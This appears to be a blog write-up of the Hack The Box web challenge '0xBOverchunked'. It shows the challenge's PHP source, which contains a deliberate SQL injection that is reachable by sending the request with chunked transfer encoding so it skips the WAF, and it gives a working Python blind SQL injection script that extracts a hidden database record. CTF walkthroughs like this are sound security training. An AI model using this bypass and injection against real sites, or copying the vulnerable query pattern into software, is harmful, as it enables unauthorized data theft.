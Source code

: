 ```yaml
---
title: Hackthebox Challenge - 0xBOverchunked
date: 2024-02-28
categories: [Writeups, Hackthebox Challenge]
tags: [CTF, Web, easy]
---
```


# 0xBOverchunked - EASY

## Description

<Sup>Author: @dhmosfunk</sup><br>
Are you able to retrieve the 6th character from the database?

## Solution

![img-description](/assets/img/2024-02-28-0xBOverchunked/website.png)
**After start machine I see a website with a searching page.**

But nothing even I can search id from 1 to 5 but id 6 is not allowed.

`Let's see the source code of the page.`

**index.php**

```html
<script>
  $(document).ready(function () {
    $("#search-form").submit(function (event) {
      event.preventDefault();
      var searchValue = $("input[name=search]").val();
      $.ajax({
        url: "Controllers/Handlers/SearchHandler.php",
        method: "post",
        data: { search: searchValue },
        success: function (response) {
          $("#results").html(response);
        },
      });
    });
  });
</script>
```

```php
<?php
require_once '../Database/Cursor.php';
require_once '../WAF/waf.php';

if (isset($_SERVER["HTTP_TRANSFER_ENCODING"]) && $_SERVER["HTTP_TRANSFER_ENCODING"] == "chunked")
{
    $search = $_POST['search'];

    $result = unsafequery($pdo, $search);

    if ($result)
    {
        echo "<div class='results'>No post id found.</div>";
    }
    else
    {
        http_response_code(500);
        echo "Internal Server Error";
        exit();
    }

}
else
{
    if ((isset($_POST["search"])))
    {
        $search = $_POST["search"];
        if (waf_sql_injection($search))
        {
            // // <SNIP>
        }
        else
            // <SNIP>
    }
    else
    {
        echo "<div class='results'>Unsupported method!</div>";
        http_response_code(400);
    }

}

?>
```

**Cursor.php**

```php
<?php
require_once 'Connect.php';

function safequery($pdo, $id)
{
    if ($id == 6)
    {
        die("You are not allowed to view this post!");
    }

    $stmt = $pdo->prepare("SELECT id, gamename, gamedesc, image FROM posts  WHERE id = ?");
    $stmt->execute([$id]);

    $result = $stmt->fetch(PDO::FETCH_ASSOC);

    return $result;
}

function unsafequery($pdo, $id)
{
    try
    {
        $stmt = $pdo->query("SELECT id, gamename, gamedesc, image FROM posts WHERE id = '$id'");
        $result = $stmt->fetch(PDO::FETCH_ASSOC);
        return $result;
    }
    catch(Exception $e)
    {
        http_response_code(500);
        echo "Internal Server Error";
        exit();
    }
}

?>
```

in the `index.php` I see after click on search button it will send a request to `SearchHandler.php` with the value of the search input.

### Concept of Chunked Transfer Encoding

After analyzing the source code I see that the server is checking for `HTTP_TRANSFER_ENCODING` and if it is `chunked` then it will execute function unsafequery.

The first vuln I aim to exploit is `Request Smuggling` it working but if you see into source code I can use unsavequery to query id 6 but they always send data back with.

```php
echo "
<div class="results">No post id found.</div>
";
```

That mean I need to use `Blind SQL Injection` to get the flag.

But in that point I don't know how to do it because I don't know about `Transfer-Encoding: chunked` so I search on google and I found a good article about it.

[https://sc.scomurr.com/http-request-smuggling-te-cl-vulnerability/](https://sc.scomurr.com/http-request-smuggling-te-cl-vulnerability/)

After learn about it I know that I can use `Transfer-Encoding: chunked` to bypass the WAF and get the flag.

### Exploit

```python
import requests
import string

possible = string.ascii_letters + string.digits + string.punctuation + ' '

url = input('Enter the URL: ')
path = '/Controllers/Handlers/SearchHandler.php'

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Transfer-Encoding': 'chunked'
}
ERROR_MSG = "Internal Server Error"

flag = "HTB"
while flag[-1] != '}':
    for i in possible:
        print(f'Test {i}',end='\r')
        query_data = f"search=1' and (select substr(gamedesc,{len(flag)+1},1) from posts where id='6')='{i}'--"
        hex_len = hex(len(query_data))[2:]
        header_data = f'{hex_len}\r\n'
        end_data = '0\r\n'

        data = header_data + query_data + end_data
        response = requests.post(url, headers=headers, data=data)

        if ERROR_MSG not in response.text:
            flag += i
            print(flag)
            break
```

> Flag: RESTRICTED
> {: .prompt-tip }
